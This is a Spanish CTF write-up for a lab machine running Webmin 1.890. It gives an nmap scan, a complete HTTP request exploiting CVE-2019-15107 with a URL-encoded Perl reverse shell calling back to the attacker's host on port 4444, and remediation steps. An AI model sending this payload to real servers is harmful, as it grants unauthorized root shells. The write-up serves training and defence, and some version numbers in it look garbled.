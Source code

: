 # Source

## Initial Scan
```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
## Exploit 
En la room en si nos dicen que es una vulnerabilidad reciente y que no necesitamos autentificacón para explotarla, eso nos deja un único candidato
### CVE 2019-15107

Los exploit que he encontrado sin metasploit todos inyectan solo en el parametro old, pero por algún motivo que ahora mismo desconozco para que el exploit funcione de manera correcta hay que inyectar tambien el expired, para ello crafteamos la siguiente request y la mandamos en burpsuite y con ello obtenemos una reverse shell en nuestra máquina
```
POST /password_change.cgi HTTP/1.1
Host: 10.10.156.161:10000
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Referer: https://IP:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 499
Connection: close
cache-control: no-cache

expired=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22(LHOST)3A4444%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27&new1=haxxedid
&new2=haxxed&old=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22(LHOST)%3A4444%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27
```
Con esta request ya lanzada solo nos queda abrir un listener en local y tenemos automaticamente shell como root

# Analisís de la intrusión
### CVE 2019-15107
Ese CVE nos permitio acceder a la máquina por un fallo de diseño en las versions de webmin anteriores a la 1.9.20 que permite ejecutar código de manera malicioso mediante una request crafteada , para hacer creer al servidor que la request viene de un usuario ya autenticado
### Webmin as root
El servicio webmin esta lanzado como root de modo que en el momento que lo comprometemos tenemos acceso a todo el servidor con maximos privilegios
# Soluciones 
## CVE 2019-15107
Para solucionar este problema la mejor solución posible es actualizar a una nueva version, 1.9.30 o superior. si esto no fuese posbile por compatibilidad o otro motivo existe un fix para versiones de la 1.9.X que consiste en editar el archivo
```
/etc/webmin/miniserv.conf, 
```
Eliminando la siguienqte linea 
```
passwd_mode= 
```
Y reiniciando el servicio tras esto
